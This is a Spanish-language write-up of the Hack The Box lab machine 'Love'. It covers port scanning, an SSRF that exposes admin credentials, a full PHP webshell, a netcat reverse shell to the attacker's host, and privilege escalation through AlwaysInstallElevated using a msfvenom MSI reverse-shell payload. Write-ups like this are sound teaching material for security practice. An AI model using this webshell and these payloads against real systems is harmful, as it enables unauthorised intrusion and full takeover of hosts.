

# Love HTB

Buenas hoy voy a enseñaros como resolver la maquina Love de dificultad fácil y sistema operativo Windows.

Esta vez no voy a hacer tanto hincapié en el escaneo de puertos, sino en explicar bien las vulnerabilidades.

# **ESTADISTICAS DE LA MAQUINA**




# **ESCANEO**

```bash
**❯ nmap -sC -sV -p80,135,139,443,445,3306,5000,5040,5985,5986,7680,47001,49664,49665,49666,49667,49668,49669,49670 10.10.10.239 -oN scanPorts                                                                                               
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-05 10:50 EDT                                                                                                                                                                            
Nmap scan report for 10.10.10.239                                                                                                                                                                                                          
Host is up (0.052s latency).                                                                                                                                                                                                               
                                                                                                                                                                                                                                           
PORT      STATE SERVICE      VERSION                                                                                                                                                                                                       
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)                                                                                                                                                       
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27                                                                                                                                                                      
135/tcp   open  msrpc        Microsoft Windows RPC                                                                                                                                                                                         
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn                                                                                                                                                                                 
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)                                                                                                                                                               
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27                                                                                                                                                                      
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in                                                                                                                       
| Not valid before: 2021-01-18T14:00:16                                                                                                                                                                                                    
|_Not valid after:  2022-01-18T14:00:16                                                                                                                                                                                                    
|_ssl-date: TLS randomness does not represent time                                                                                                                                                                                         
| tls-alpn:                                                                                                                                                                                                                                
|_  http/1.1                                                                                                                                                                                                                               
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)                                                                                                                                                  
3306/tcp  open  mysql?                                                                                                                                                                                                                     
| fingerprint-strings:                                                                                                                                                                                                                     
|   LANDesk-RC, SSLSessionReq, WMSRequest:                                                                                                                                                                                                 
|_    Host '10.10.14.17' is not allowed to connect to this MariaDB server                                                                                                                                                                  
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_ssl-date: 2021-08-05T15:24:18+00:00; +29m18s from scanner time.
| tls-alpn: 
|_  http/1.1
7680/tcp  open  pando-pub?
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.91%I=7%D=8/5%Time=610BFAD7%P=x86_64-pc-linux-gnu%r(SSL
SF:SessionReq,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.17'\x20is\x20not\
SF:x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(LAND
SF:esk-RC,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.17'\x20is\x20not\x20a
SF:llowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(WMSReque
SF:st,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.17'\x20is\x20not\x20allow
SF:ed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: 29m17s
| smb2-security-mode: 
|   3.00: 
|_    Message signing enabled but not required
|_smb2-time: Protocol negotiation failed (SMB2)**
```

Nmap nos reporta dos dominios asociados a la IP, staging.love.htb y love.htb, lo agregamos al /etc/hosts y vemos sus paginas en el navegador y le hacemos whatweb:

```bash
❯ cat whatweb2
http://staging.love.htb/ [200 OK] Apache[2.4.46], Country[RESERVED][ZZ], HTML5, HTTPServer[Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27], IP[10.10.10.239], OpenSSL[1.1.1j], PHP[7.3.27], Title[Secure file scanner], X-Powered-By[PHP/7.3.27], X-UA-Compatible[IE=edge]
```

```bash
❯ whatweb http://love.htb
http://10.10.10.239 [200 OK] Apache[2.4.46], Bootstrap, Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27], IP[10.10.10.239], JQuery, OpenSSL[1.1.1j], PHP[7.3.27], PasswordField[password], Script, Title[Voting System using PHP], X-Powered-By[PHP/7.3.27], X-UA-Compatible[IE=edge]
```

```bash
❯ whatweb http://10.10.10.239:5000
http://10.10.10.239:5000 [403 Forbidden] Apache[2.4.46], Country[RESERVED][ZZ], HTTPServer[Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27], IP[10.10.10.239], OpenSSL[1.1.1j], PHP[7.3.27], Title[403 Forbidden]
```

La primera pagina es un escáner de archivos, la segunda un login y la tercera no tenemos acceso.

Voy a fuzzear las paginas para obtener informacion:

```bash
❯ wfuzz -c -w /opt/diccionario_medio.txt -t 200 -L --hc 404 http://love.htb/FUZZ                                                                                                                                                           
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.                         
********************************************************                                                                                                                                                                                   
* Wfuzz 3.1.0 - The Web Fuzzer                         *                                                                                                                                                                                   
********************************************************                                                                                                                                                                                   
                                                                                                                                                                                                                                           
Target: http://love.htb/FUZZ                                                                                                                                                                                                               
Total requests: 220546                                                                                                                                                                                                                     
                                                                                                                                                                                                                                           
=====================================================================                                                                                                                                                                      
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                            
=====================================================================                                                                                                                                                                      
                                                                                                                                                                                                                                           
000000002:   200        19 L     95 W       1644 Ch     "images"                                                                                                                                                                           
000000245:   200        169 L    450 W      6198 Ch     "admin"                                                                                                                                                                            
000000505:   200        23 L     148 W      2486 Ch     "plugins"                                                                                                                                                                          
000000624:   200        22 L     126 W      2257 Ch     "includes"                                                                                                                                                                 
000000888:   503        11 L     44 W       398 Ch      "examples"                                                                                                                                                                 
000001489:   200        18 L     88 W       1385 Ch     "dist"                                                                                                                                                                     
000001805:   403        11 L     47 W       417 Ch      "licenses"                                                                                                                                                                 
000003659:   200        19 L     95 W       1644 Ch     "IMAGES"
```

El directorio /admin/ me reporta otro login pero no me pide un ID sino un usuario, como aun no tenemos nada lo dejamos ahí.

# **EXPLOTACION DE LA VULNERABILIDAD**

Después de enumerar las paginas, en la pagina stanging.love.htb hay un beta.php que es un scanner de archivos url, pruebo un RFI a mi maquina atacante poniéndome en escucha con python y haciendo una petición a mi maquina, pero sin resultado, entonces intento ver archivos internos de la maquina:


No obtengo nada de información, pero y si tiro de localhost para ver archivos locales internos de la maquina?:


Vale, nos muestra cosas, pero como podemos aprovecharnos de esto?, pues recordáis la pagina que ponía Forbidden? Exacto! vamos a ojearla:


Vaya vaya, parece que alguien nos ha regalado credenciales, a esto se le llama SSRF (Server Side Request Forgery):

## ¿Qué es un SSRF?

Desde una aplicación web vulnerable, las SSRF permiten interactuar con el servidor para extraer archivos del mismo y encontrar sus otros servicios activos. Pero no se detiene ahí. También es posible escanear la red interna para mapear las direcciones IP y los puertos abiertos.

En este caso podemos ver una pagina que externamente no tenemos acceso.

Vamos a conectarnos con sus credenciales en el login http://love.htb/admin/


Estamos dentro del panel, ahora toca ganar acceso a la maquina:

Primero de todo pruebo si me deja subir archivos .php en algun sitio y encuentro que en las imágenes, después de unos cuantos intentos no puedo otorgarme una rev.shell, así que pruebo una webshell:

```bash
❯ cat webshell.php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```


Funciona correctamente, esto es posible porque la pagina esta mal sanitizada y el desarrollador de la pagina confió plenamente en el input del usuario, esto es muy grave porque un atacante con malas intenciones podría aprovecharse de esto para ganar acceso.

# **GANANDO ACCESO A LA MAQUINA**

Vamos a compartirnos el nc.exe y enviarnos una cmd.exe:

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.239 - - [05/Aug/2021 12:47:26] "GET /nc.exe HTTP/1.1" 200 -
```


```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.198] from (UNKNOWN) [10.10.10.239] 50770
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>>
```

Podemos ver la flag:

```bash
Directory of C:\Users\Phoebe\Desktop

04/13/2021  03:20 AM    <DIR>          .
04/13/2021  03:20 AM    <DIR>          ..
08/04/2021  03:20 AM                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   3,948,539,904 bytes free

type user.txt
type user.txt
2b399a1e890c2aa058491311c180f359
```

# **ESCALACION DE PRIVILEGIOS**

Nos pasamos el winPeas.exe para escanear posibles vías para escalar privilegios y lo ejecutamos:

```bash
Checking AlwaysInstallElevated                                                                                                                                                                                                           
  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated                                                                                                                                             
    AlwaysInstallElevated set to 1 in HKLM!                                                                                                                                                                                                
    AlwaysInstallElevated set to 1 in HKCU!
```

Tenemos activado el AlwaysInstallElevated con Phoebe.

AlwaysInstallElevated es una funcionalidad que ofrece a todos los usuarios (especialmente a los usuarios con pocos privilegios) en una máquina con Windows ejecutar cualquier archivo MSI con privilegios elevados. MSI es un formato de archivo de paquete de instalación basado en Microsoft que se utiliza para instalar, almacenar y eliminar un programa.

A continuación, se muestra un ejemplo sobre cómo comprobar esta funcionalidad.

Nos creamos nuestro archivo malicioso con el payload:

```bash
msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.0.2.4 LPORT=1337 --encoder x64/xor --iterations 9 --format msi --out AlwaysInstallElevated.msi
```

Ahora ejecutaremos el comando de consulta del registro en este símbolo del sistema para verificar si el instalador de Windows tiene privilegios elevados o no.

```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated 
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated 

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

AlwaysInstallElevated.msi
AlwaysInstallElevated.msi

C:\Users\Phoebe\Desktop>
```

Como podemos ver en el resultado, el registro llamado “AlwaysInstallElevated” existe con un valor de dword (REG_WORD) de 0x1, lo que significa que la política AlwaysInstallElevated está habilitada.

Ejecutamos el archivo malicioso y obtenemos una rev. shell 

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.198] from (UNKNOWN) [10.10.10.239] 50809
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

whoami
whoami
nt authority\system

hostname
hostname
Love

C:\WINDOWS\system32>
```